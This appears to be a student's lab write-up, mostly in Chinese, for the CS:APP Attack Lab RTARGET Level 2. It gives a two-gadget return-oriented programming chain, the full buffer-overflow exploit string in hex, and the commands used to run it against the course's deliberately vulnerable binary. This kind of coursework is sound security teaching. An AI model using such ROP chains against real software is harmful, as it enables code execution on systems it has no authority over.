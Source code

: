 

### Level 2

#### 任务

For Phase 4, you will repeat the attack of Phase 2, but do so on program RTARGET using gadgets from your gadget farm. You can construct your solution using gadgets consisting of the following instruction types（movq, popq, ret, nop）, and using only the first eight x86-64 registers (%rax–%rdi). 



#### 解题过程

**思路：**

- **利用缓冲区溢出修改 getbuf 的返回地址为 gadget1 的地址，并且存入其他 gadget 返回地址、cookie、touch2 地址，在 gadget 程序链中利用 popq 和 retq 获取到**

- **程序链的总体执行效果：将 cookie 传入 %rdi 作为参数，最后一个 gadget 的 ret 跳转到 touch2**

gadget 可以设计为：

```assembly
0x4019ab <gadget1>:
:	58						popq %rax	# 弹出 cookie
:	90						nop
:	c3						ret			# 跳转到 gadget2

0x4019a2 <gadget2>:	48 89 c7 c3
:	48 89 c7				movq %rax,%rdi
:	c3						ret			# 跳转到 touch2
```

对应的 exploit stirng 存储在 exploit.22.txt：

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
ab 19 40 00 00 00 00 00 /* gadget1 地址 */
fa 97 b9 59 00 00 00 00 /* cookie */
a2 19 40 00 00 00 00 00 /* gadget2 地址 */
ec 17 40 00 00 00 00 00 /* touch2 地址 */
```

getbuf 跳转到 gadget1；将 cookie 放置到 %rax 中，跳转到 gadget2；将 cookie 从 %rax 复制到 %rdi 中，跳转到 touch2。



#### 运行结果

执行命令 `./hex2raw < exploit.22.txt > exploit-raw.22.txt`，`./rtarget -q < exploit-raw.22.txt`。

![image-20230818023827897](https://gitee.com/dq-agj/imags/raw/master/img/image-20230818023827897.png)

------
